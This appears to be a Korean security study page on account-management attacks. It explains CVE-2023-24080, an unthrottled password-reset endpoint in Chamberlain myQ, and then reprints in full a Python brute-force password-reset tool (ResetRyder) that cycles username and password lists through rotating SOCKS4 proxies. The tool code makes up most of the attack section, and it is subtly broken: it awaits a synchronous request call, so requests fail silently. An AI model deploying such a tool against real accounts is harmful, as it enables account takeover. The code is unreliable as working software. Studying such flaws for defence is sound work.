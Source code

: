 ```yaml
---
description: 1. 계정 관리
---
```


# 01.계정 관리

※ 무작위 대입 공격(Brute Force Attack): 특정한 암호를 풀기 위해 가능한 모든 값을 대 입하는 공격 방법&#x20;

※ 사전 대입 공격(Dictionary Attack): 사전에 있는 단어를 입력하여 암호를 알아내거나 암호를 해독하는 데 사용되는 컴퓨터 공격 방법



2023년 2월, CVE-2023-24080 취약점을 참고하여 만든 [resetryder](https://github.com/SirCryptic/resetryder) tool을 이용하여 무차별 대입 로그인 통신 과정을 알아보았다.



**CVE-2023-24080이란 무엇인가?**

Chamberlain myQ v5.222.0.32277(iOS)의 비밀번호 재설정 엔드포인트에서는 속도 제한이 없는 취약점이 발견 되었고 이 취약점은 공격자가 무차별 대입 공격을 통해 사용자 계정을 손상시킬 수 있는 취약점이다.



1. 공격자는 피해자의 이메일 계정에 대한 사전 지식이 필요합니다. 또는 이  취약점을 발견한 사람처럼 공격자는 피해자의 계정이 있는지 확인하기 위해 다음 End point에 반복적으로 요청을 할 수 있다.

```
POST /api/Account/ForgotPassword

```

2. 아래는 존재하지 않는 계정인 jim@brackish.io 의 base 64 인코딩 버전이다 . 계정이 있는 경우 이 매개변수는 Location 응답 헤더에 없다 . 피해자의 이메일이 발견되면 계정 탈취는 간단하다. 이 취약점의 핵심은 속도 제한이 없다는 것이다.

```
email=amltQGJyYWNraXNoLmlv
```



3. 이 요청의 본문에는 (다른 매개 변수 중에서) 피해자에게 이메일로 전송되는 재설정 코드가 포함되어 있다.&#x20;

```
Code=5308
```

<figure><img src="../../.gitbook/assets/image.jpg" alt=""><figcaption><p>수천 건의 요청 후 재설정 코드가 적중되면 302 응답</p></figcaption></figure>



재설정 코드는 길이가 4자리에 불과하며 이 End point에는 속도 제한이 없다. 공격자는 자유롭게 이 코드를 무차별 대입하고 피해자의 암호를 재설정 할 수 있다. 이 문제는 2023년 1월 10일에 Chamberlain에 보고되었다.

출처 : [https://nvd.nist.gov/vuln/detail/CVE-2023-24080](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)[
\
http://web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/
](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)



그러면 이 취약점을 응용하여 만든 툴을 사용해보자

**ResetRyder - Open Source Brute Force Password Reset Tool**

이 있는데 이 Tool이 CVE-2023-24080 취약점을 응용한 툴이다.

<figure><img src="../../.gitbook/assets/image2.jpg" alt=""><figcaption><p><a href="https://github.com/SirCryptic/resetryder">https://github.com/SirCryptic/resetryder</a></p></figcaption></figure>



아래에는 해당 tool의 python3 code이다.

```
import time
import requests
import random
import argparse
import asyncio

# Developer: SirCryptic (NullSecurityTeam)
# Info:      ResetRyder - Brute force password reset tool - By NullSecurityTeam
# Note/s:    Based on CVE-2023-24080 not only just for Chamberlain myQ v5.222.0.32277 (on iOS)
#            This code will work for any web application that has a similar vulnerability.
#            The author of this script is not responsible for any damage caused by the use or misuse of this script. 
#            These PoCs are intended for educational and research purposes only, and should never be used to target or exploit systems without explicit permission from the owner.

password_list_path = ""
username_list_path = ""
reset_password_url = ""
rate_limit_time = 1
proxy_list_path = ""
max_retries = 3
max_timeout = 10
max_concurrent_requests = 10

parser = argparse.ArgumentParser(description="ResetRyder - Brute force password reset tool - By NullSecurityTeam")
parser.add_argument("-p", "--password_list", required=True, help="Path to the password list file")
parser.add_argument("-u", "--username_list", required=True, help="Path to the username list file")
parser.add_argument("-r", "--reset_password_url", required=True, help="Reset password URL")
parser.add_argument("-t", "--rate_limit_time", type=int, default=1, help="Rate limiting time in seconds (e.g., 1)")
parser.add_argument("-x", "--proxy_list", required=True, help="Path to the SOCKS4 proxy list file")
parser.add_argument("-a", "--max_retries", type=int, default=3, help="Maximum number of retries for failed requests")
parser.add_argument("-o", "--max_timeout", type=int, default=10, help="Maximum timeout for requests in seconds")
parser.add_argument("-c", "--max_concurrent_requests", type=int, default=10, help="Maximum number of concurrent requests")
args = parser.parse_args()

password_list_path = args.password_list
username_list_path = args.username_list
reset_password_url = args.reset_password_url
rate_limit_time = args.rate_limit_time
proxy_list_path = args.proxy_list
max_retries = args.max_retries
max_timeout = args.max_timeout
max_concurrent_requests = args.max_concurrent_requests

with open(password_list_path, "r") as f:
    password_list = [line.strip() for line in f]

with open(username_list_path, "r") as f:
    username_list = [line.strip() for line in f]

with open(proxy_list_path, "r") as f:
    proxy_list = [line.strip() for line in f]

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

async def reset_password(username, password):
    for i in range(max_retries):
        payload = {"username": username, "new_password": password, "confirm_new_password": password}
        proxy = {"socks4": proxy_list[random.randint(0, len(proxy_list) - 1)]}
        try:
            response = await asyncio.wait_for(requests.post(reset_password_url, headers=headers, data=payload, proxies=proxy, timeout=max_timeout), timeout=max_timeout)
            if "password reset successful" in response.text.lower():
                print(f"Password reset successful for user {username}. New password: {password}")
                return True
            else:
                print(f"Password reset failed for user {username} and password: {password}")
        except:
            pass
    return False

async def main():
    tasks = []
    semaphore = asyncio.Semaphore(max_concurrent_requests)
    async with semaphore:
        for username in username_list:
            for password in password_list:
                task = asyncio.create_task(reset_password(username, password))
                tasks.append(task)
                await asyncio.sleep(rate_limit_time)
    results = await asyncio.gather(*tasks)
    print(f"Total requests: {len(results)}, Successful requests: {sum(results)}")

asyncio.run(main())
```



